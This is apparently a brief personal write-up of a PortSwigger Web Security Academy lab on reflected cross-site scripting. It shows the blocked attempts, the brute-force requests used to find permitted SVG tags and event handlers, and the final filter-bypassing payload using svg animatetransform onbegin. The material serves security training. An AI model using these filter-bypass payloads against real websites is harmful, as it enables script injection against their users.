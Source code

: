 # Lab: Reflected XSS with some SVG markup allowed
# https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed

```bash
<img src=0 onerror=alert()>
"Tag is not allowed"
```
```bash
# Brute force check my previous XSS Labs for how to brute force.
GET /?search=<§§> HTTP/1.1

animatetransform
svg
image

# We can use animetransform which works inside svg.
```
```bash
<svg><animatetransform onerror=alert()>

"Event is not allowed"

```
```bash
# Brute Force
GET /?search=<svg><animatetransform%20§§=0> HTTP/1.1

onbegin
```
```bash
<svg><animatetransform onbegin=alert()>
```
